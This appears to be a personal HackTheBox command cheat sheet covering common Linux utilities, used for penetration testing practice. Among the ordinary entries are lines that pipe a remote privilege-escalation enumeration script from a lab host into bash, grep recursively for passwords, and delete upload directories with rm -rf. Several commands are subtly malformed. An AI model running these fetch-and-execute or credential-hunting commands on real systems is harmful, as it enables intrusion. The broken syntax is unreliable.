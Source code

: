 ### Post \ Pre Exploitation

- [ls](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#ls)
- [Grep](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#grep)
- [AWK](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#awk)
- [Curl](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#curl)
- [wget](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#wget)
- [Compression and decompression of files](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#compressing-and-decompressing)
- [Find](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#find)
- [xclip](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#xclip)
- [Misc](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#misc)
- [bashLoops](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#bash-loops)
- [sed](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#sed)
- [tr](https://github.com/cyberwr3nch/hackthebox/blob/master/notes/commands/Regular%20Commands.md#tr)
- [tail](#tail)
- [watch](#watch)


#### ls
```bash
# list files
ls

# list hidden files
ls -la

# list files with human readable size
la -sh
```

#### Grep
```bash
# search for the files that contains the phrase password in it
grep -ir password
grep -iRl "password" ./

# exclude multiple strings
grep -Ev 'exclude1 | exclude 2' filename.txt

# obtain only lines starting with small letters
grep -v '[A-Z]' users.txt
```


#### AWK
```bash
# simple grab based on spaces, damnedsec cyberwr3nch hackthebox
awk '{print $1}' # output damnedsec

# multiple field seperator, obtain things only with in the delimeter
# contents of the file-> user: cyberwr3nch: damnedsec;123
awk -F: '{print $3}' users.txt # output damnedsec;123

# obatain the first occurance with awk
awk -F ':' "/1/ {print $1}"

# contents of users.txt -> user:[BLACKFIELD764430] rid:[0x451], 
awk -F"[][]" '{print $2}' users.txt # output: BLACKFIELD764430

# obtain contents from a specific line
# where x is the line number	
awk 'NR==x {print $1}'

# print lines form a specific line to the end of the file
awk 'NR>x' users.txt

# omit all the blank lines in a file
awk 'NF'
```

#### Curl
```bash
# make http, http2, http3 requests with curl
curl -vv http://10.10.10.10
curl --http2 http://10.10.10.10
curl --http3 http://10.10.10.10

# obtain only the response header
curl --head http://10.10.10.10.

# upload files via curl
curl --user "{user}:{creds}" --upload-file=<file> "http://10.10.10.10/upload_location"

# curl save the output
curl http://10.10.10.10 -o index.html

# pipe the requesting files
curl http://10.10.10.10:<port_no>:lin(peas\|enum).sh | bash
```

#### Wget
```bash
# download files with wget
wget http://10.10.10.10/xxx.sh

# run files without downloading
wget -O - http://10.10.10.11:<port_no>:lin(peas\|enum).sh
```

#### SED
```bash
# search and replace strings
cat username.txt | sed s/{stringToBeChanged}/{replacementString}/g

# replace the last ',' with a null character
cat usernames.txt | sed s/,$//

# add \x after every two characters, the .. denotes the two characters, \x&, adds \x and & doesnt delete the characters that were before
cat hexpayload.txt | sed 's/../\\x&/g'

# replace something in a file, replace the last occurance of , in the intel_update.log file
sed -i 'sed -i 's/,$/\]/' intel_update.log

# delete empty lines in a file
sed -r '/^\s*$/d'
```

#### tr
```bash
# translate new lines '\n' into ','; used in HTB nmap
cat usernames.txt | tr '\n' ','
```


#### Find
```bash
# find with file names
find . -name user.txt 

# find and execute
find . -name '*.txt' -exec cat "{}" \;

# {} is used as the place holder and tells the follwing to as an argument
# find directories with the specified name and execute the command
find . -type d -name uploads -exec rm -rf "{}" ';'

# find and copy files 
find -name 'file.ext' -exec cp "{}" <copy_path>  \;

# find the recently modified files
# maxdepth - sub directories, newermt - timestamp
find . -maxdepth 1 -newermt "2016-12-06"

# find files with specific string in it
find . -type f -print0 | xargs -0 -e grep -niH -e "your common word to search"
```

#### Compressing and Decompressing
```bash
# zip a folder with its contents
zip -r -9 html.zip /var/www/html

# unzip a zip file
unzip html.zip

# tar a file
tar cvf html.tar html/

# extract a .tar file
tar -xvf html.tar 

# tar.gz a folder
tar cvfz html.tar.gz html/

# unzip a *.tar.gz file
tar -xzvf html.tar.gz

# unzip rar file
unrar x html.rar
```

#### Xclip
```bash
# installation
sudo apt-get install xclip

# copying contents from a file and pasting it with 'mouse scroll button'
cat user.txt | xclip

# copying file and using cttl + v for pasting
cat user.txt | xclip -sel clip
cat user.txt | xclip -selection clipboard

# copy the contents in the primary clipboard
cat user.txt | xclip -selection primary
```

#### Misc
```bash
# monitor, repeat the same command for a period of time
# ls -la every 1 sec on a dir
watch -n 1 'ls -la'
```

#### Bash Loops
```bash
# for loop that adds payload += in each line of the file
for i in $(cat hexdata); do echo "payload += b'$i'"; done
```

#### Tail <a name='tail'></a>
```bash
# view only last line of the file
tail -1 <file>

# view last 7 lines from the file
tail -n7 <file>

# omit the line specified before
tail +7 <file> # displays without the first seven lines of the file

# update the contents of the file and provide the output
tail -f <file>
```

#### Watch <a name='watch'></a>
```bash
# repeat executing the command
watch <command>
 
# execute the commands in specific intervals
watch -n <seconds> <command>

# highlight the differences in each execution ## Thanks copycookie.com 
watch -n <seconds> -d <command> 

# exit on changes
watch -g <command>
```
